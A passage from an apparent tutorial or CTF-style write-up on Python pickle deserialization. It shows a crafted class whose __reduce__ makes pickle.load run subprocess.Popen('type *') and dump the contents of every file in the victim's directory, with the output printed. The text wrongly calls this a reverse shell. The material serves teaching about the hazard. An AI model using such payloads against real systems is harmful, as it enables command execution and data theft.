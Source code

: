 ```python
>>> print(result.read())
We're no strangers to love
You know the rules and so do I (do I)
A full commitment's what I'm thinking of
You wouldn't get this from any other guy
I just wanna tell you how I'm feeling
Gotta make you understand
Never gonna give you up
Never gonna let you down
Never gonna run around and desert you
Never gonna make you cry
Never gonna say goodbye
Never gonna tell a lie and hurt you
```

We've been tricked, we've been backstabbed and we've been quite possibly bamboozled! Where are the secrets? `flag.txt` gave us an unexpected rickroll!

However, the above assumes that the attacker already knows the names of the files in the current directory. Instead, we can use `subprocess.Popen` to expose all of the documents in the current directory by utilising a reverse shell:

```python
>>> import subprocess
>>> class Thief:
    	def __reduce__(self):
        	return (subprocess.Popen, ("type *", -1, None, -1, -1, -1, None, True, True))
```

```python
>>> import pickle
>>> with open("raid.pkl", "wb") as file:
    	pickle.dump(Thief(), file)
    	file.close()
```

The victim then accesses `raid.pkl` and tries to communicate with the class that they had just downloaded:

```python
>>> with open("raid.pkl", "rb") as file:
        result = pickle.load(file)
        file.close()
```

```python
>>> print(result.communicate())
(b'We\'re no strangers to love\r\nYou know the rules and so do I (do I)\r\nA full commitment\'s what I\'m thinking of\r\nYou wouldn\'t get this from any other guy\r\nI just wanna tell you how I\'m feeling\r\nGotta make you understand\r\nNever gonna give you up\r\nNever gonna let you down\r\nNever gonna run around and desert you\r\nNever gonna make you cry\r\nNever gonna say goodbye\r\nNever gonna tell a lie and hurt you\x80\x03csubprocess\nPopen\nq\x00(X\x06\x00\x00\x00type *q\x01J\xff\xff\xff\xffNJ\xff\xff\xff\xffJ\xff\xff\xff\xffJ\xff\xff\xff\xffN\x88\x88tq\x02Rq\x03.import pickle\r\nwith open("raid.pkl", "rb") as file:\r\n    result = pickle.load(file)\r\n    file.close()\r\n    \r\nprint(result.communicate())\r\n', b'\r\nflag.txt\r\n\r\n\r\n\r\nraid.pkl\r\n\r\n\r\n\r\ntest.py\r\n\r\n\r\n')
```

